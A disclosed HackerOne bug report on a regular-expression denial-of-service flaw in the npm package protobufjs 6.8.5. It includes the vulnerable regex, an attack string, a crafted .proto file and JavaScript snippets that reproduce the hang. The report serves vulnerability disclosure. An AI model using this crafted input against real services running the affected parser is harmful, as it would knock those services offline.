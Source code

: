 # `protobufjs` is vulnerable to ReDoS when parsing crafted invalid *.proto files

## Report Details
- **Report ID**: 319576
- **URL**: https://hackerone.com/reports/319576
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-02-25T17:59:38.999Z
- **Disclosed**: 2018-03-31T20:38:42.297Z

## Reporter
- **Username**: chalker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a ReDoS in `protobufjs`
It allows to cause Denial of Service by trying to parse (or load) a crafted `*.proto` file.

# Module

**module name:** protobufjs
**version:** 6.8.5
**npm page:** `https://www.npmjs.com/package/[MODULE NAME]`

## Module Description

> Protocol Buffers are a language-neutral, platform-neutral, extensible way of serializing structured data for use in communications protocols, data storage, and more, originally designed at Google (see).

## Module Stats

-22 592 downloads in the last day
352 974 downloads in the last week
1 321 151 downloads in the last month

~15 853 812 estimated downloads per year

# Vulnerability

## Vulnerability Description

ReDoS.
- regex: `/^(?:\.?[a-zA-Z_][a-zA-Z_0-9]*)+$/`
- evil string: `xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx!`
- file: https://github.com/dcodeIO/protobuf.js/blob/6.8.5/src/parse.js#L27 

## Steps To Reproduce:

proto file:

```
// awesome.proto
package awesomepackage;
syntax = "proto3";

message AwesomeMessage {
    option (my_option) = xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx!;
}
```

js file:

```js
require('protobufjs').load("./awesome.proto", () => {});
```

or, just with `parse`:

```js
require('protobufjs').parse(`
package awesomepackage;
syntax = "proto3";

message AwesomeMessage {
    option (my_option) = xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx!;
}
`, () => {});
```

## Supporting Material/References:

- Arch Linux Current
- Node.js 9.5.0
- npm 5.6.0

# Wrap up

- I contacted the maintainer to let him know: N
- I opened an issue in the related repository: N

## Impact

Cause denial of service by parsing a crafted *.proto file.

## Attachments
No attachments

